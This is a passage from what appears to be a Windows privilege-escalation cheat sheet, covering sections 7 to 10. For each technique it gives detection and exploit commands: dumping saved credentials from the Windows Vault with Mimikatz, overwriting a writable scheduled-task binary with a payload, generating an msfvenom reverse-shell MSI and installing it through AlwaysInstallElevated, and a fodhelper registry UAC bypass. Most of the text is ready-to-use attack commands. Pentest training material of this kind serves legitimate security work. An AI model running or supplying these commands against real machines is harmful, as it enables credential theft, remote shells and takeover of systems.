 
#### **7. Windows Vault / Credential Manager**
Retrieve credentials saved by users.
* **Exploit Commands:**
    ```powershell
    rem -- List all credentials stored in the vault
    cmdkey /list
    rem -- Dump vault credentials with Mimikatz
    mimikatz.exe "vault::cred" exit
    ```

---

#### **8. Scheduled Tasks**
Hijack a privileged task that points to a writable file.
* **Find:**
    ```powershell
    rem -- List tasks and then check permissions on the target binary
    schtasks /query /fo LIST /v
    icacls "C:\Path\To\TaskBinary.exe"
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Overwrite the writable binary with your payload
    rem -- The original binary will be replaced. The task will run your payload on its next trigger.
    copy /Y C:\tmp\payload.exe "C:\Path\To\TaskBinary.exe"
    ```

---

#### **9. AlwaysInstallElevated**
Install an MSI package with **SYSTEM** privileges.
* **Find:**
    ```powershell
    rem -- Check if both registry keys are set to 1
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Create a malicious MSI installer
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f msi -o payload.msi
    rem -- Run the installer on the target machine with no admin rights needed
    msiexec /quiet /qn /i C:\tmp\payload.msi
    ```

---

#### **10. UAC Bypass**
Elevate from a medium-integrity shell to a high-integrity shell.
* **Find:** Check UAC settings and the Windows build number.
* **Exploit Command (Example using fodhelper):**
    ```powershell
    rem -- Hijack the registry key that fodhelper.exe reads from
    reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "C:\tmp\payload.exe" /f
    rem -- Execute fodhelper.exe to trigger the payload in a high-integrity context
    fodhelper.exe
    ```

---